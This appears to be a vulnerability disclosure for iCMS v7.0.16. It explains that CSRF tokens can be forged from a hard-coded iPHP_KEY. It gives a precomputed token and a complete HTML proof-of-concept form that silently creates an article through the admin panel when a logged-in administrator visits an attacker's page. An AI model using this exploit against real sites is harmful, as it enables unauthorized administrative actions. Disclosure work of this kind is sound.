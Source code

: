 ## Global CSRF Vulnerability Caused by csrf_token can be predicted in iCMS v7.0.16

The "CSRF_TOKEN"  param has been set when I try to find some CSRF vuln in the iCMS v7.0.16, but it is finally turned out to be a "fake CSRF_TOKEN" after I audit source code. we can calculate the csrf_token by the "iPHP_KEY" hard coded in the source code.

### location

The calculation logic of csrf_token is located in：

![](/pictures/cve9.png)

it is based the value of "key" in the line 385, and the "key" is calculated by the value of "iPHP_KEY", the "iPHP_KEY" is hard coded in the source code. like：

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve10.png)

And then we can see the "CSRF_TOKEN" check logic in here:

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve11.png)

if the time is in the scope, and the values are equal, the check will be fine. So the problem is the "csrf_token" is hard coded in the source code, but not binding with the Identity，and the default expiration time("iPHP_COOKIE_TIME") is too long (as the picture show is 31536000 seconds). if someone builds a website with default configuration, the csrf_token can be fully forged.
 
### proof

we can just use the "authcode" function to create a "csrf_token", here is : 9041868bvetZwR1LmSKxbAKQMzFoR6mwPIZzKQA8SVCJiuwTgSqofazrzNTgVilHb1s8CJI1dK6Y7cJfayPMQO-NYT-9ClZ_lLl3y0Q

and then we make a poc for csrf to add an article ,like:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.64.2/iCMS-7.0.16/admincp.php?app=article&do=save&frame=iPHP&CSRF_TOKEN=9041868bvetZwR1LmSKxbAKQMzFoR6mwPIZzKQA8SVCJiuwTgSqofazrzNTgVilHb1s8CJI1dK6Y7cJfayPMQO-NYT-9ClZ_lLl3y0Q" method="POST">
      <input type="hidden" name="&#95;cid" value="" />
      <input type="hidden" name="&#95;scid" value="" />
      <input type="hidden" name="&#95;tags" value="" />
      <input type="hidden" name="&#95;pid" value="" />
      <input type="hidden" name="&#95;data&#95;id" value="" />
      <input type="hidden" name="article&#95;id" value="0" />
      <input type="hidden" name="userid" value="1" />
      <input type="hidden" name="ucid" value="" />
      <input type="hidden" name="postype" value="1" />
      <input type="hidden" name="REFERER" value="http&#58;&#47;&#47;192&#46;168&#46;64&#46;2&#47;iCMS&#45;7&#46;0&#46;16&#47;admincp&#46;php&#63;app&#61;article&amp;do&#61;trash" />
      <input type="hidden" name="chapter" value="" />
      <input type="hidden" name="markdown" value="0" />
      <input type="hidden" name="cid" value="4" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="scid&#91;&#93;" value="4" />
      <input type="hidden" name="pid&#91;&#93;" value="0" />
      <input type="hidden" name="title" value="fasdhfas" />
      <input type="hidden" name="stitle" value="fasdfa" />
      <input type="hidden" name="source" value="fads" />
      <input type="hidden" name="author" value="fs" />
      <input type="hidden" name="editor" value="iCMS" />
      <input type="hidden" name="pic" value="" />
      <input type="hidden" name="mpic" value="" />
      <input type="hidden" name="spic" value="" />
      <input type="hidden" name="keywords" value="fasdf" />
      <input type="hidden" name="tags" value="" />
      <input type="hidden" name="description" value="dfasdfasd" />
      <input type="hidden" name="data&#95;id" value="" />
      <input type="hidden" name="subtitle" value="fasd" />
      <input type="hidden" name="autopic" value="1" />
      <input type="hidden" name="body&#91;&#93;" value="&lt;p&gt;fadsfasd&lt;&#47;p&gt;" />
      <input type="hidden" name="pubdate" value="2021&#45;01&#45;24&#32;16&#58;05&#58;50" />
      <input type="hidden" name="sortnum" value="1611475550" />
      <input type="hidden" name="weight" value="1611475550" />
      <input type="hidden" name="hits" value="0" />
      <input type="hidden" name="hits&#95;today" value="0" />
      <input type="hidden" name="hits&#95;yday" value="0" />
      <input type="hidden" name="hits&#95;week" value="0" />
      <input type="hidden" name="hits&#95;month" value="0" />
      <input type="hidden" name="favorite" value="0" />
      <input type="hidden" name="comments" value="0" />
      <input type="hidden" name="good" value="0" />
      <input type="hidden" name="bad" value="0" />
      <input type="hidden" name="tpl" value="" />
      <input type="hidden" name="clink" value="" />
      <input type="hidden" name="url" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

and take this in my vps website , the article will be created when the user click the website in my vps, like :

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve12.png)

This is a global problem, the "csrf_token" is not fully protective here and many operations will involve csrf vulnerabilities .


